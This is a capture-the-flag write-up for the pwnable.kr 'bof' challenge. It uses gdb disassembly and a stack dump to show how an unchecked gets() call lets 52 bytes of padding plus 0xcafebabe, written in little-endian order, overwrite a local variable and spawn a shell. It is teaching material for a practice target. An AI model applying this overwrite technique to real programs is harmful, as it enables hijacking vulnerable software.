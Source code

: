 ## Description

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof

Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution

In this challenge we should provide the value **0xcafebabe** for **key** variable to spawn a shell, but this variable is not normally in our control.
when we look at the **fucn()** code we see the **gets()** function is used as input function for **overflowme** variable and this is where we should smash the stack :)

I open the program with **gdb** debugger and disassemble the **func()** function.

```
(gdb) disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e3b590 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e3ab40 <gets>
=> 0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e10620 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e3b590 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7edd4e0 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.
```
We set a memory breakpoint on the comparison instruction line.
```
(gdb) break *0x56555654
 Breakpoint 1 at 0x56555654
```
We run the program again with **"AAAA"** as input.
```
(gdb) r                                     
Starting program: /path/of/program
overflow me :                               
AAAA        

Breakpoint 1, 0x56555654 in func ()
```
We can see the stack with the following command.
```
(gdb) x/22xw $esp
0xffffd0f0:     0xffffd10c      0xffffd1f4      0xf7fac000      0xf7faaa80
0xffffd100:     0x00000000      0xf7fac000      0xf7ffc800      0x41414141
0xffffd110:     0x56556f00      0xf7fac000      0x00000001      0x5655549d
0xffffd120:     0xf7fac3fc      0x00040000      0x56556ff4      0xb82ae100
0xffffd130:     0x56556ff4      0xf7fac000      0xffffd158      0x5655569f
0xffffd140:     0xdeadbeef      0x00000000
```
we know the **func()** is initialized with 0xdeadbeef value and it's the current value of the **key** variable. we also know the value of **overflowme** variable (0x41414141). so when we calculate how many A (0x41) characters we should enter to override the **key** variable and write **0xcafebabe** into its address. 
so when we calculate the space between the **overflowme** variable and **key** variable we find that we need to enter 52 bytes (character) to start overriding the **key** variable. the payload to solve the challenge is **A&ast;52+0xcafebabe** but we type 0xcafebabe in reverse order because the system is little endian.

run the python code to get the flag. :)
